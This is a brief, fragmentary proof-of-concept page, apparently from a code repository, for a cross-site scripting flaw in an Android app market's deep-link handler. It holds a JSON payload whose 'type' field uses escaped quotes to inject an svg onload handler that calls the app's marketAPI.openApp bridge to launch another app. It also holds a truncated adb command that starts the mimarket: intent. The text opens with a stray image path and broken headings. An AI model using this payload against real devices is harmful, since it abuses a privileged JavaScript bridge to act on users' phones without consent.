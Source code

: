 Open any App The device
-----------------------

```
{"title":"Reproduce Proof of concept","type":"yaytypeyay\u0022\u003e\u003csvg onload\u003d\u0022javascript\u003aalert(marketAPI.openApp({'pName':'com.android.documentsui'}))\u0022\u003e","subtitle":"By HappyJester","tips":"Test","btnTips":"Button"}

```

```
 adb shell am start -a android.intent.action.VIEW -d 'mimarket:

```